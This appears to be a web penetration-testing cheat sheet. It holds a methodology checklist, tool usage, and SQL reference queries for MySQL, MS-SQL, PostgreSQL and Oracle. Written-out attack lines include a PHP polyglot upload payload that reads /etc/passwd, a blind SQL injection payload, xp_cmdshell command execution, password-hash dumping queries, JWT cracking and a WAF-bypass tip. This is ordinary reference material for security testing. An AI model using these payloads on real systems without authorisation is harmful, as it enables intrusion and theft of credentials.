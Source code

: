 ----

###### <font style="color:#00b3ff">Methodology</font> 

```
-start a new Burp project
-burp scan
-nikto
-wafw00f
-wpscan (if wordpress)

(-sslcan / ssl labs / testssl.sh)
-dirbuster (or dirb)
-gobuster
-burp intruder (github list bruteforce) (with authentication cookie)
-sqlmap
-check js client code
		
-test manually the app:
	- session timeout
	- session invalidation on logout
	- concurrent session
	- username enumeration
	- account lockout
	- password complexity
	- headers, CSP
	- cookie/jwt storage
	- cookie flags
	- JWT security
	- autocomplete on forms
	- CSRF
	- Cache control
	- File Upload and Download
	- Data input validation
	- Error verbosity
	- Burp browser DOM invader
	- session fixation, randomness, protocols (HTTP?)
	- authentication, 2fa, password change, remember me, SSO
	- business logic flaws
	- websockets
	- privilege escalations
```


###### <font style="color:#00b3ff">File Upload</font> 

```
- create polyglot file:
	-> exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" img-background1.jpg -o polyglot.php
```

###### <font style="color:#00b3ff">Content Security Policy</font> 

```
- Check CSP: https://csp-evaluator.withgoogle.com/
```

###### <font style="color:#00b3ff">XSS</font> 

```
- Check jQuery version in the console: console.log(jQuery().jquery);
```

###### <font style="color:#00b3ff">WebDAV</font> 

```
-> make request with OPTIONS header in Burp
	-> if the response gives a lot of methods there is probably WebDAV enabled
-> use: cadaver (a WebDAV client on Kali Linux)
	-> cadaver http://xxxxx.com
-> use: davtest
```

###### <font style="color:#00b3ff">HTTP Verb to test</font> 

```
COPY, DELETE, GET, HEAD, LOCK, MOVE, OPTIONS, POST, PROPFIND, PROPPATCH, PUT, REPORT, UNLOCK, TRACE
```

###### <font style="color:#00b3ff">Additional Techniques</font> 

```
- Change user agent in dirbuster
- create a brute-force list with the crunch tool
```

###### <font style="color:#00b3ff">dotdotpwn</font> 

```
-> testing the path traversal
-> dotdotpwn.pl -m http -h 192.168.1.1 -M GET
```

###### <font style="color:#00b3ff">tplmap.py</font> 

```
-> testing the Server Side template injection
```

###### <font style="color:#00b3ff">Xampp</font> 

```
-> folder and webpages are accessible in the folder htdocs/
```

###### <font style="color:#00b3ff">Waf Bypass</font> 

```
-> use censys.io to retrieve original ip from a website
```

###### <font style="color:#00b3ff">Burp Suite</font> 

```
-> Extensions: Additional CSRF Checks, Bypass WAF, Heartbleed, JSON Beautifier, JSON Web Tokens, JOSEPH, Kerberos Authentication, psychoPATH, SAML Raider Certificates, Wsdler, Session Auth, AWS Security Checks, Auto-Repeater, Authorize

-> Update CRSF tokens with Macros: https://portswigger.net/support/using-burp-suites-session-handling-rules-with-anti-csrf-tokens

-> Match/replace rule:
	- to replace {base} add filter to \{base}
```

###### <font style="color:#00b3ff">jwtcat.py</font> 

```
-> Crack a jwt token:
	-> python3 jwtcat.py -t [1st_part_token].[2nd_part_token] -w /usr/share/wordlists/rockyou.txt
```

###### <font style="color:#00b3ff">SQL Injections</font> 

```
[*] MySQL

	DB version	->	SELECT @@version;
	Hostname and IP	->	SELECT @@hostname;
	Current DB	->	SELECT database();
	List DBs	->	SELECT distinct(db) FROM mysql.db;
	Current user	->	SELECT user();
	List users	->	SELECT user FROM mysql.user;
	List password hashes	->	SELECT host,user,password FROM mysql.user;

	blind sqli get first number of version:
		-> S0000001I' AND IF(MID(@@version,1,1)='5',sleep(1),1); #

	List all columns and tables:
		-> SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA !='mysql' AND TABLE_SCHEMA !='information_schema' AND TABLE_SCHEMA !='performance_schema' AND TABLE_SCHEMA !='sys';

	To get command execution:
		-> we need to have write permission for MySQL

	mysql shell:
		-> select load_file('/etc/passwd');

	Comments 	-> 	#


	[*] MS-SQL

	DB version 	->	SELECT @@version
	Detailed version info	->		EXEC xp_msver
	Run OS Command		->		EXEC master..xp_cmdshell 'net user'
	Hostname and IP		->		SELECT HOST_NAME()
	Current DB		->		SELECT DB_NAME()
	List DBs	->		SELECT name FROM master..sysdatabases;
	Current User	->	SELECT user_name()
	List users	->	SELECT name FROM master..syslogins
	List tables		->	SELECT name FROM master..sysobjects WHERE xtype='U';
	List columns	->	SELECT name FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name='mytable');

	Comments 	-> 		--


	[*] PostgreSQL

	DB version	->	SELECT version();
	Hostname and IP	->	SELECT inet_server_addr()
	Current DB	->	SELECT current_database();
	List DBs		->	SELECT datname FROM pg_database;
	Current user	->	SELECT user;
	List users		->	SELECT username FROM pg_user;
	List password hashes	->	SELECT username,passwd FROM pg_shadow

	Comments 	-> 		--


	[*] ORACLE

	DB version	->	SELECT * FROM v$version;
	DB version	->	SELECT version FROM v$instance;
	Current DB	->	SELECT instance_name FROM v$instance;
	Current DB	->	SELECT name FROM v$database;
	List DBs	->	SELECT DISTINCT owner FROM all_tables;
	Current user	->	SELECT user FROM dual;
	List users	->	SELECT username FROM all_users ORDER BY username;
	List columns	->	SELECT column_name FROM all_tab_columns;
	List tables		->	SELECT table_name FROM all_tables;
	List password hashes	->	SELECT name, password, astatus FROM sys.user$;

	Comments 	-> 		--
```


#### Gobuster

```
gobuster dir -u https://test.test/ \

  -w SecLists/Discovery/Web-Content/common.txt \

  -t 1 \

  --delay 2s \

  --timeout 30s \

  -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"

```